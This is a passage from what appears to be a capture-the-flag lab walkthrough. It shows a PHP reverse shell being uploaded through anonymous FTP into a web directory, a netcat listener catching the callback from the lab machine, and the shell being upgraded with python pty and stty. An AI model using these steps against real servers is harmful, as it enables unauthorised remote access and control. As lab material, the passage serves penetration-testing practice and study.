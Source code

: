 ```bash
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
-rw-r--r--    1 48       48          13353 Nov 08  2020 backup.zip
226 Directory send OK.

ftp> pwd
257 "/" is the current directory
```

- The files in this folder seems to be the **web directory**.
- If we upload anything to this folder, then we can access it in the browser!
- May be we should upload **reverse-shell.php** to this folder. 
- **P.S:** Make sure to change the IP address and port number.

```bash
ftp> put php-reverse-shell.php reverse-shell.php
local: php-reverse-shell.php remote: reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (29.5908 MB/s)
```

---

## Initial shell

- Listen on the appropriate port using `netcat`.
- Visit `http://10.10.213.153/reverse-shell.php` on the browser to get a reverse shell.

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.213.153] 44754
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:32:57 up 45 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (858): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
```

- Upgrade the reverse shell:

```bash
sh-4.4$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ ^Z
[1]+  Stopped                 nc -lvnp 1234

$ stty raw -echo; fg
nc -lvnp 1234

bash-4.4$ export term=XTERM
bash-4.4$            
```

---